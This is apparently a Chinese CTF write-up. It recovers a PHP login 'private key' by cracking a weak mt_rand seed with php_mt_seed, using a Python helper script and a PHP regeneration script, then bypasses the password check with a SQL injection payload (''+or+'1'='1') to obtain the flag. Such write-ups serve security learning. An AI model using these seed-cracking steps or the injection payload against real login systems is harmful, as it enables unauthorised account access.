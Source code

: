 ```php
$Public_key = public_key();
//$Public_key = KVQP0LdJKRaV3n9D  how to get crispr's private_key???
```

php低版本的mt种子问题，写个脚本导出值，然后php_mt_seed一把梭。

```python
char = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
public_key = "KVQP0LdJKRaV3n9D"

print("[+]Result is: ")
for i in public_key:
    print(str(char.index(i)) + " " + str(char.index(i)) + " 0 " + "61", end=" ")
```

一把梭。

![](https://gitee.com/R1ta_Violet/blogimg/raw/master/imgs/image-20210808112013845.png)

得到的值在php[5.2.1 - 7.0.x]重新计算私钥的值。

```php
<?php

function public_key($length = 16) {
    mt_srand(1775196155);
    $strings1 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $public_key = '';
    for ( $i = 0; $i < $length; $i++ )
        $public_key .= substr($strings1, mt_rand(0, strlen($strings1) - 1), 1);
    private_key();
}

//genarate private_key
function private_key($length = 12) {
    $strings2 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $private_key = '';
    for ( $i = 0; $i < $length; $i++ )
        $private_key .= substr($strings2, mt_rand(0, strlen($strings2) - 1), 1);
    echo $private_key;
}
public_key();
```

> XuNhoueCDCGc

有私钥的值直接登陆即可，密码那还有个简单sql。

> Private_key=XuNhoueCDCGc&login=登录&password='+or+'1'='1&username=crispr

得到flag

> flag{9227093c-e6ac-4b87-b77b-516945f26eda}

